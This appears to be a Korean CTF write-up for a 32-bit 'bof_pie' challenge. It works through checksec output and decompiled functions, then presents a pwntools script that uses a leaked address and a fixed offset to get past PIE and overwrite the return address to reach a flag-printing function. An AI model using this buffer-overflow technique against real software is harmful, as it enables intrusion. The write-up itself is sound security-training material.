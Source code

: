 # BOF_PIE

```c
kimdong@ubuntu  ~/Wargame  file bof_pie
bof_pie: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.32, BuildID[sha1]=51bf2a67853257d1a3c8a539861e79160befe163, not stripped

kimdong@ubuntu  ~/Wargame  checksec bof_pie
[*] '/home/kimdong/Wargame/bof_pie'
   Arch:     i386-32-little
   RELRO:    Partial RELRO
   Stack:    No canary found
   NX:       NX enabled
   PIE:      PIE enabled
 ```
 이번 바이너리 파일은 32-bit에 NX와 PIE 보호기법이 설정되어있다.<br>

 ```c
 kimdong@ubuntu  ~/Wargame  ./bof_pie
Hello, Do you know j0n9hyun?
j0n9hyun is 0x565b6909
0x565b90^H
Nah...

kimdong@ubuntu  ~/Wargame  ./bof_pie
Hello, Do you know j0n9hyun?
j0n9hyun is 0x565e6909
0x565e6909
Nah...
```
실행을 해보면 다음과 같이 출력문이 2가지 나오고, 사용자 입력값을 받은후에 Nah라는 문자열을 다시 출력해준다.<br>

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  welcome();
  puts("Nah...");
  return 0;
}
```
main문은 welcome이라는 함수외에 문자열을 출력해주는 함수만 있다.<br>
welcome이라는 함수를 보도록 하자.<br>

```c
int welcome()
{
  char v1; // [esp+6h] [ebp-12h]

  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  puts("Hello, Do you know j0n9hyun?");
  printf("j0n9hyun is %p\n", welcome);
  return _isoc99_scanf("%s", &v1);
}
```
welcome이라는 함수는 문자열을 출력해주고, welcome의 주소지를 출력해준다.<br>
scanf로 문자열을 받으므로 길이값을 검증하지 않는다.<br>

```c
void j0n9hyun()
{
  char s; // [esp+4h] [ebp-34h]
  FILE *stream; // [esp+2Ch] [ebp-Ch]

  puts("ha-wi");
  stream = fopen("flag", "r");
  if ( stream )
  {
    fgets(&s, 40, stream);
    fclose(stream);
    puts(&s);
  }
  else
  {
    perror("flag");
  }
}
```
ida에서 확인을 하다보니, j0n9hyun이라는 함수가 있다.<br>
이 함수를 보면 flag를 출력시켜주는 것으로 보인다.<br>
일단 j0n9hyun이라는 함수의 주소는 `0x56555890`에 위치한다.<br>
바이너리를 실행했을때는 `0x56555909`에 위치한다고 알려준다.<br>
이 값을 받아서 welcome함수의 ret의 주소를 j0n9hyun으로 변경시켜주면 될것같다.<br>
아, 그런데 PIE 기법으로 인해 두 함수의 주소가 매번 바뀌는데 둘의 offset차이는 0x79로 기존 바이너리가 출력시켜주는 값에서 0x79값을 빼주면 j0n9hyun으로 바뀔것같다.<br>


---

## Exploit Code

```c
from pwn import *
p =  remote("ctf.j0n9hyun.xyz",3008)
p.recvuntil("j0n9hyun is ")
addr = int(p.recv(10),16)
print addr
offset = 0x79
real_addr= addr - offset
print real_addr
payload = "A"*(0x12+0x4)
payload += p32(real_addr)

p.sendline(payload)
p.interactive()
```
```c
kimdong@ubuntu  ~/Wargame  python ex_bof_pie.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3008: Done
1448552713
1448552592
[*] Switching to interactive mode

ha-wi
HackCTF{}
[*] Got EOF while reading in interactive
```
